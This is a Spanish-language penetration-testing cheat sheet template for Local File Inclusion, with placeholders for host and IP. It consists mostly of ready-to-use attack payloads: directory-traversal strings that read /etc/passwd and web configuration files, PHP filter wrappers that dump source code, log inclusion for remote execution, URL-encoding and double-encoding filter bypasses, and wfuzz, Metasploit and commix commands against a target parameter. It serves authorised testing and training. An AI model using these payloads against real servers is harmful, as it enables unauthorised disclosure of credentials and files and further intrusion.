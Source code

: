 # CheatSheet: Local File Inclusion (LFI)

## Fecha: {FECHA}
## Host: {HOST}
## IP: {IP}

---

## Objetivo
Identificar y explotar vulnerabilidades de LFI para acceder a archivos locales del servidor, comprometiendo la confidencialidad, integridad o disponibilidad de la información.

---
## Herramientas
1. Burp Suite
2. OWASP ZAP
3. Metasploit

---
## Procedimiento y comandos

1. **Identificar parámetros vulnerables**:
   - Probar inyecciones básicas en parámetros que carguen archivos:
     ```
     http://{HOST}/?file=../../../../etc/passwd
     ```

2. **Probar vectores comunes**:
   - Escalación de directorios:
     ```
     ../../../../../../etc/passwd
     ```
   - Uso de wrappers de PHP:
     ```
     php://filter/convert.base64-encode/resource=index.php
     ```
   - Inclusión de logs para ejecución remota:
     ```
     /var/log/apache2/access.log
     ```

3. **Automatización y enumeración**:
   - Usar secuencias automatizadas para descubrir archivos:
     ```bash
     wfuzz -c -z file,/path/to/wordlist.txt "http://{HOST}/?file=FUZZ"
     ```

4. **Exploración de archivos sensibles**:
   - Probar rutas comunes de configuración y claves:
     ```
     ../../../../etc/nginx/nginx.conf
     ../../../../var/www/html/config.php
     ```

---
## Troubleshooting
1. **El servidor bloquea los patrones de escalación**:
   - Probar codificación de caracteres para bypass:
     ```
     ..%2f..%2f..%2f..%2fetc/passwd
     ```
   - Usar doble URL encoding:
     ```
     ..%252f..%252f..%252f..%252fetc/passwd
     ```

2. **Mensajes de error restringidos**:
   - Activar verbosidad en herramientas de análisis para obtener más información.
   - Usar wrappers de PHP para analizar errores:
     ```
     php://filter/read=convert.base64-encode/resource=index.php
     ```

3. **Protecciones de archivos bloqueadas**:
   - Verificar configuraciones de open_basedir y buscar rutas permitidas para archivos accesibles.

---
## Herramientas Alternativas
- [ ] **WFuzz**: Automatización de pruebas para rutas locales.
  ```bash
  wfuzz -c -z file,/path/to/wordlist.txt "http://{HOST}/?file=FUZZ"
  ```
- [ ] **Metasploit**: Módulos para explotación de LFI.
  ```bash
  use exploit/unix/webapp/lfi
  ```
- [ ] **Commix**: Detección de vulnerabilidades relacionadas con comandos y archivos.
  ```bash
  commix --url="http://{HOST}/?file=exploit"
  ```
